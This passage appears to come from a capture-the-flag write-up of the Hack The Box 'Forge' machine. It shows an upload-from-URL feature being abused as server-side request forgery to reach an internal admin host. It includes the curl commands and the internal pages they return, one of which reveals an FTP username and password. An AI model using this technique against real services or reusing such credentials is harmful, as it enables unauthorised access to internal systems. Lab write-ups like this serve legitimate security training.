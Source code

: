 That seemed intriguing to us, so we dug further. We used `curl` trying to view this page in CLI.

`curl http://forge.htb/uploads/9Trq5nq7AVUlCGY3xlYv`

And that was a good shot. We noted another subdirectory, which was not found by Gobuster - `/announcements`.

```
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

So now we uploaded `http://ADMIN.FORGE.HTB/announcements` and used the same steps as previous.

`curl http://forge.htb/uploads/RRX4ERDRkIdBANfkSQnn`

```
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```
